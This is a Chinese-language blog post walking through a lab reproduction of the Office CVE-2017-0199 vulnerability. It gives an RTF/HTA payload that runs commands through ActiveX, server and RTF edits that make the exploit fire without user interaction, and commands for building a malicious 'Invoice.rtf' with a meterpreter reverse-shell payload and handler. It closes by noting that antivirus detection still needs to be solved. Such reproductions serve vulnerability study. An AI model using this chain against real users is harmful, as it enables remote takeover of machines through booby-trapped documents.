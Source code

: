 ```yaml
---
layout: post
title: "Office CVE-2017-0199复现"
date: 2017-11-24 0:0:0
categories: jekyll update
---
```

## 介绍
<p>
&emsp;** 本文介绍在Ubuntu 14.04服务器版本下复现office cve-2017-0199。**
</p>
## 环境
> ubuntu 14.04服务器版

## 目录
* [验证](#1)
* [取消交互](#2)
* [Get Shell](#3)


### <a name="1"></a>1、验证
&emsp;Step 1：安装apache2服务
<div align="center">
    <img src="/images/posts/office/1.png" >  
</div>

&emsp;Step 2：在网站根目录下创建1.rtf，内容如下：
```script
test789 
<script> 
var objShell = new ActiveXObject("wscript.shell"); objShell.Run("%SystemRoot%\\system32\\calc.exe"); 
</script>

```

&emsp;Step 3：验证apache的配置文件mime.types里有rtf的content type项
因为mime.types的位置可能因系统而不同，所以直接使用find命令查找位置
<div align="center">
    <img src="/images/posts/office/2.png">  
</div>

&emsp;查看该文件，可以看到
<div align="center">
    <img src="/images/posts/office/3.png">  
</div>

&emsp;Step 4：使用office 2013 pro 创建空白文档，然后点击“插入”  “对象”,
在文件名上填写完整的网页地址，选择链接到文件
<div align="center">
    <img src="/images/posts/office/4.png">  
</div>

&emsp;点击“确定”，然后在文档中可以看到 test789。
<div align="center">
    <img src="/images/posts/office/5.png" >  
</div>

&emsp;注：在此步中，很可能不成功，具体原因未知。
具体现象：在链接到1.rtf时显示找到路径，不存在该文件。但去链接同目录下的index.html文件时可以成功，成因未知。


&emsp;Step 5：将mime.types中的application/rtf   rtf 改成 application/hta   rtf
重启apache服务
<div align="center">
    <img src="/images/posts/office/5.png">  
</div>

<div align="center">
    <img src="/images/posts/office/6.png">  
</div>

&emsp;Step 6：双击对象
<div align="center">
    <img src="/images/posts/office/7.png">  
</div>

<div align="center">
    <img src="/images/posts/office/8.png" >  
</div>

<div align="center">
    <img src="/images/posts/office/9.png">  
</div>

&emsp;可见成功利用`CVE-2017-0199漏洞`

-----------

### <a name="2"></a>2、取消交互
&emsp;为了`取消用户交互`，也就是让用户去双击
&emsp;Step 1：将文件另存为.rtf格式
<div align="center">
    <img src="/images/posts/office/10.png" >  
</div>

。。。。。直接被`卡巴`检测到恶意文件.
<div align="center">
    <img src="/images/posts/office/11.png" >  
</div>

&emsp;Step 2：用文本编辑器打开刚才保存的rtf格式文件，找到object标签所在地方
<div align="center">
    <img src="/images/posts/office/12.png">  
</div>

&emsp;把{object\objautlink\rsltpict 改成 {object\objautlink\objupdate\rsltpict

&emsp;保存文件再打开，这样就不用用户交互了。

&emsp;此时在虚拟机中新建一个空白文档，这时，在点击链接到文件后已经会自动弹出计算器了
虚拟机环境：win7，office 2010 pro
<div align="center">
    <img src="/images/posts/office/13.png">  
</div>

<div align="center">
    <img src="/images/posts/office/14.png">  
</div>

<div align="center">
    <img src="/images/posts/office/15.png">  
</div>
----------

### <a name="3"></a>3、Get Shell
&emsp;在kali中利用exploit
&emsp;Github地址：https://github.com/bhdresh/CVE-2017-0199

下载后，在情景1下实验

```python
1) Generate malicious RTF file
   # python cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.doc -x 1
2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
3) Start toolkit in exploit mode to deliver local payload
   # python cve-2017-0199_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe
```


按以上命令依次运行
<div align="center">
    <img src="/images/posts/office/16.png" >  
</div>

<div align="center">
    <img src="/images/posts/office/17.png">  
</div>

&emsp;可证实该exploit可行。
&emsp;但生成的.rtf在执行时会被杀软报毒，需要解决。

